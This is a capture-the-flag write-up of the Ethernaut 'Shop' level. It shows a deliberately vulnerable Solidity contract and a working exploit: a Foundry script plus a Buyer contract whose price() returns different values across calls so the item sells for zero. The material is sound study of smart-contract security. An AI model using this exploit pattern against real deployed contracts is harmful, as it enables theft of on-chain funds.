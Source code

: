 ```yaml
---
title: "Shop"
date: "2024-02-25T10:39:00.000Z"
lastmod: "2024-02-26T09:33:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Denial-edd8839ce63a4a2194adfd2905ad4940"
weight: 22
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/21"
next: "Dex-2e8b616a5bd64b05874e71b8b4a30ac7"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "b6f28652-a236-42f2-805f-d50f577ea02f"
  created_time: "2024-02-25T10:39:00.000Z"
  last_edited_time: "2024-02-26T09:33:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel21.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Denial-edd8839ce63a4a2194adfd2905ad4940"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Denial-edd8839ce63a4a2194adfd2905ad4940"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 22
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/21"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Dex-2e8b616a5bd64b05874e71b8b4a30ac7"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Dex-2e8b616a5bd64b05874e71b8b4a30ac7"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Shop"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Shop"
          href: null
  url: "https://www.notion.so/Shop-b6f28652a23642f2805fd50f577ea02f"
  public_url: null
UPDATE_TIME: "2024-02-26T13:02:26.334Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


Сan you get the item from the shop for less than the price asked?


### Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Buyer, Shop} from '../src/21.sol';

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_21");

        vm.startBroadcast(deployerPrivateKey);

        Buyer buyer = new Buyer(addr);
        buyer.buy();

        Shop shop = Shop(addr);

        console.logBool(shop.isSold());
        console.logUint(shop.price());

        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Shop {
  function isSold() external view returns(bool);
  function price() external view returns(uint);
  function buy() external;
}

contract Buyer {
  Shop shop;

  constructor(address _shop) {
    shop = Shop(_shop); 
  }

  function price() public view returns (uint p) {
    if (shop.isSold() == true) {
      return 0;
    }
    return 100;
  }

  function buy() public {
    shop.buy();
  }
}
```


Contracts can manipulate data seen by other contracts in any way they want.


It's unsafe to change the state based on external and untrusted contracts logic.


